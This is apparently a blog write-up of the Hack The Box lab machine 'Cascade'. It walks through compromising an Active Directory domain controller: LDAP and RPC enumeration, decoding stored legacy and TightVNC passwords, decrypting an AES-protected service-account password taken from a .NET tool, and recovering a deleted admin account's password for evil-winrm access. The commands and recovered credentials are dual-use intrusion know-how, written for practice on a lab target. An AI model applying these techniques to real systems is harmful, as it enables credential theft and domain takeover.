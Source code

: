 ```yaml
---
layout: post
title: HTB Machine - Cascade
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
share-img: https://www.hackthebox.com/storage/avatars/64fef851357b8de1c4834093bf3426f2.png
tags: [ HTB, Hack the Box, Powershell,LDAP,.NET,SQLite,TightVNC,WinRM,RPC,Web,Network,Vulnerability Assessment,Active Directory,Protocols,Cryptography,Security Tools,Reversing,Authentication,SMB,DNSPY,.NET,Reconnaissance,User Enumeration,Password Reuse,Clear Text Credentials,Information Disclosure,Weak Cryptography,Hard-coded Credentials]
---
```


Enumerate smb and rpc. We found some users that we place in a file and then check if we can get a TGT. No luck. We check if there is any other info in the info of the users.

```bash
crackmapexec smb 10.10.10.182 -u ''
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)

rpcclient -U '' 10.10.10.182 -N -c 'enumdomusers' |  grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

GetNPUsers.py -no-pass -usersfile users.txt cascade.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)

rpcclient -U '' 10.10.10.182 -N -c 'querydispinfo'
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull	Name: Adrian Turnbull	Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc	Name: ArkSvc	Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson	Name: Ben Hanson	Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc	Name: BackupSvc	Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman	Name: David Burman	Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe	Name: Edward Crowe	Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft	Name: Ian Croft	Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen	Name: Joseph Allen	Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand	Name: John Goodhand	Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield	Name: James Wakefield	Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson	Name: Ryan Thompson	Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson	Name: Stephanie Hickson	Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith	Name: Steve Smith	Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util	Name: Util	Desc: (null)
```

we can try to bruteforce the pass expecting for a user to use his username as pass but that would not work. Next we can try to enumerate the ldap.
```bash
ldapsearch -x -H ldap://10.10.10.182 -b 'DC=cascade,DC=local' | cat -l ruby
```
the colors of the batcat make it easier to read. We are looking for the userPrincipalName to check our users. in the batcat use /userPrincipalName to search for the parameter and press N in your keyboard to jump to the next hit. Underneath the user r.thomson we see an interesting parameter. 
```bash
cascadeLegacyPwd: clk0bjVldmE=
```
seems like is base64 so we need to decode: 
```bash
echo 'clk0bjVldmE=' | base64 -d; echo
rY4n5eva
```
verify the pass with crackmapexec.
```bash
crackmapexec winrm 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva 

crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```
We can try to do a dump of the ldap to check it. So we do the dump on our content folder and from there start a webserver. Then go to the browser and the localhost address, check all the data in the html files. 
```bash
ldapdomaindump 10.10.10.182 -u 'cascade.local\r.thompson' -p 'rY4n5eva'

python3 -m http.server 80
```
we are going to enumerate the smb now.
```bash
smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -r

smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -A '(xlsx|docx|txt|xml|reg|log|html)' -R
```

We found a file .reg if we cat it we could see a password fiel that is coded in hex. When decoding it we se that the password has a weird pattern, but we could try to decode it, if we ask saint google for 'VNC view decrypted password github' a few tools appear. The solution we found uses for tools already in the system. 

```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

echo "6bcf2a4b6e5aca0f" | xxd -ps -r | xxd
00000000: 6bcf 2a4b 6e5a ca0f                      k.*KnZ..

echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

```

we dont know for which user is the credential valid but we are going to use it against our list of users to find out. After finding it we can winrm to the machine and extract the first flag.  

```bash
crackmapexec winrm 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'
```

From there we need to enumerate our priv and the user memberships. If we enum the audit share local group we see a comment that seems to mention a share. We will jump and enumerate then smb with the user credentials. The folder Audit$ seems to have interesting stuff, we are going to dl to our attack machine to check it. For that we will connect with smbclient, turn the prompt off so it does not ask for 'are you sure?' all the time, we activate the recurse so it goes inside each folder and then run a mget * to dl it. 

```bash
whoami /all
net user s.smith
net localgroup 'Audit Share'

smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2' -r Audit$

smbclient //10.10.10.182/Audit$ -U "s.smith%sT333ve2"
prompt off
recurse ON
mget *
```
we examine the files there is one that contains a database. Mount it to examine it. If we enum all tables we will find something intersting in one of the tables. Seems like a base64 but when decoding it the pattern does not seem correct. 

```bash
cd DB

file Audit.db
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60

.tables

select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

go back to the dl files and lets keep examining it. There is an exe file and when displaying the strings we can see some sort of pass. testing it with crackmapexec against our list of users is unfruitful. So we might need to dig deeper into the .exe file.

```bash
strings CascAudit.exe -e l

c4scadek3y654321
```

in a windows machine install dotpeek tool and open the .exe file in it, we verify in the code that the key is that one. The code mentions an import module called crypto that is used to decrypt along with the key. The crypto module is a .dll that we have and we can also import in dotPeek. Once we have it there we can examine it and see and IV key. Also the code mentions the encryption type. 

AES mode CBC

With that info we can go to cyberchef and feed it with the input and 2 modules: From base 64 and AES decrypt

```
From base 64: standard

AES decrypt
Key: c4scadek3y654321
UTF8
IV: 1tdyjCbY1Ix49842
UTF8
Mode: CBC
Input: Raw
Output: Raw

output: w3lc0meFr31nd
```

We can verify the credentials and login as the user. 

```Bash
crackmapexec winrm 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

we know that the user is able to see deleted object from the AD and in one of the files we enumerated earlier it was mentioned that there was a TempAdmin with the same credentials as the Admin. If we google 'powershell get object deleted object filter' we get to a post with a command to show already deleted users. We will add to list all the properties. In on of the properties there is a pass coded in base64, decode it to get the password, validate it and collect the root flag.

```bash
get-adobject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d; echo
baCT3r1aN00dles

evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
```